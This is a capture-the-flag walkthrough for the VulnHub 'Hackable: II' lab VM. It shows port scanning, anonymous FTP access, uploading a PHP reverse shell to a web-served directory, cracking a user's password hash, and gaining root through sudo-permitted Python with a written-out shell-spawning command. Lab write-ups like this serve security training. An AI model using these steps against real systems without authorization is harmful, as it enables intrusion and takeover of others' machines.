<h1>Hackable: II</h1>

Today, we'll be taking a look at the hackable2 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/hackable-ii,711/).

<h2>Nmap</h2>
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 19:57 EET
Nmap scan report for 192.168.56.105
Host is up (0.00035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2fc62fc46da6f55bc21bf9171f9a0989 (RSA)
|   256 5e911b6bf1d881de8b2cf37061ea6f29 (ECDSA)
|_  256 f1982191c8ee4da283146496375b443d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:E0:32:46 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.35 ms 192.168.56.105
```
The machine is running ftp,ssh and http.

ftp allows anonymous login.

We got in and found a file called: **CALL.html**.

Let's download it to our local machine.

```get CALL.html```



The file doesn't contain anything special, just some basic html.

Let's check the machine's http server.

I'll use dirsearch for directory enumeration.

```dirsearch -u 192.168.56.105```



We found a directory called **files**.





It cotains the same file we found in the ftp server.

That means we can anonymous login to upload a reverse shell.

If you're using kali or parrot, you can find a php reverse shell here: **/usr/share/webshells/php/php-reverse-shell.php**

Now, we need to change the ip address to the ip of our local machine.



Now, let's login as anonymous and upload the shell.

```put php-reverse-shell.php```



We can see that the shell is also in the **files** directory.



We got a shell!

You can also use these two commands to make your shell more stable.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```



In the home directory, there's a file **important.txt**.



Let's check that script.



We found the hashed password for the user **shrek**.

Let's crack the hash and switch user to shrek.

You can use this [website](https://hashes.com/en/tools/hash_identifier) to 
identify the hash type.



We got the password.

Now, let's switch to shrek.

```su shrek```

We found the user flag at the home directory of shrek.



Let's use ```sudo -l```.

Great! we can run python with sudo.



Now, let's open a root shell and find the root flag.

```python3.5 -c 'import os; os.system("/bin/sh")'```

We are root!

